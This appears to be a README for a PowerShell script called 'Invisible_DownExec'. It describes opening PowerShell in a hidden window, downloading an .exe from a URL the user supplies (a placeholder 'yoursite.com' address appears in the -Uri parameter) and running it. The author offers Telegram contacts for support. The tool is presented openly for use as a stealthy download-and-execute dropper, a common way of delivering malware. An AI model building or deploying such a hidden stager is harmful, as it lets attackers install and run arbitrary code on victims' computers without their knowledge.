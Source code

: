 
# Invisible_DownExec

This script invisibly downloads an exe from an url that you will have to provide, then it executes the exe file.



## How to use?

This script is not plug and play. You will have to do the following changes:

- change url for the .exe file "-Uri 'https://yoursite.com/your_executable.exe'"
- change name of the .exe file "-OutFile 'your_executable.exe'"


## Features

- open powershell invisble
- download .exe from url
- execute downloaded .exe





## Feedback

If you have any feedback, please reach out to me via Telegram https://t.me/voiscko






## Support

For support, contact me via Telegram https://t.me/voiscko


## Meta


- If you want to sponsor me on Patreon, the link is on my profile.


